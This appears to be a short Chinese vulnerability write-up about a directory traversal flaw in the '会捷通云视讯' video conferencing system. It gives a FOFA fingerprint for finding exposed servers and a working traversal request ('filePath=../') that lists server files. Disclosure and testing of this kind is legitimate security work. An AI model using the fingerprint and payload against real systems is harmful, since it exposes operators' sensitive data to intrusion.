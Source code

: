 # 会捷通云视讯-list-目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](会捷通云视讯-list-目录文件泄露漏洞.assets/16273631455192058.jpg)

访问Url

```
/him/api/rest/V1.0/system/log/list?filePath=../
```

![](会捷通云视讯-list-目录文件泄露漏洞.assets/1627363145848755.jpg)

## Goby & POC

![](会捷通云视讯-list-目录文件泄露漏洞.assets/16273631462054589.jpg)